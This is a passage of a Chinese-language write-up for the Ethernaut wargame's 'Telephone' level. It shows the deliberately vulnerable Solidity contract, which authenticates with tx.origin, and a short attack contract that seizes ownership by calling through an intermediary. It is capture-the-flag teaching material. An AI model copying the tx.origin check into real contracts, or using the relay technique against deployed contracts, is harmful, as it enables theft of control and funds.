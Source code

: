 - 一些其它的选项包括使用比特币block headers (通过验证 BTC Relay), RANDAO, 或是 Oraclize。


## 4. Telephone

![](https://ethernaut.openzeppelin.com/imgs/BigLevel4.svg)

### 要求

获得合约 owner 权限

### 代码

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

### 分析

`tx.origin` 和 `msg.sender` 可以创造条件直接满足，改变 owner。

### 攻击

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Hack{
    Telephone private immutable target;

    constructor (address _target) {
        target = Telephone(_target);
    }
    
    function changeOwner(address _owner) public {
        target.changeOwner(_owner);
    }
}
```
